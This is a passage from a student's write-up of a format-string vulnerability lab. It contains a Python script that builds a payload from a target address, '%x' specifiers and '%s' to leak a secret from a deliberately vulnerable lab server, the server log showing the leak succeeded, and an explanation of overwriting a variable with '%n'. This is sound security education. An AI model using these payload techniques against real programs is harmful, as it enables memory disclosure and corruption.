 #### Code: `build_string_task2b.py`
```python
#!/usr/bin/python3
import sys

N = 1500
NUM_BYTES = 4
NUM_MEM_POSITIONS = 63

content = \
    (0x080b4008).to_bytes(NUM_BYTES,byteorder='little') + \
    ( \
        "%x"*NUM_MEM_POSITIONS + \
        "\n%s\n" \
    ).encode('latin-1')

content = content + bytearray(0x0 for i in range(N - len(content)))

with open('badfile', 'wb') as f:
  f.write(content)
```

#### Container shell output
```sh
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd3a0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd2c8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 1122334410008049db580e532080e61c0ffffd3a0ffffd2c880e62d480e5000ffffd3688049f7effffd3a00648049f4780e53205dc5dcffffd3a0ffffd3a080e972000000000000000000000000008e2a340080e500080e5000ffffd9888049effffffd3a05dc5dc80e5320000ffffda540005dc
server-10.9.0.5 | A secret message
server-10.9.0.5 | 
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

## Task 3
### Task 3.A
* Can you change the content of the `target` variable to something else?
    * Yes, we include the address of the target variable (`0x080e5068`) as the first 4 bytes of our format string and use the `%n` format specifier, which will write the number of characters printed by `printf` so far to that address. The server output confirms that we successfully modified the value of the variable.
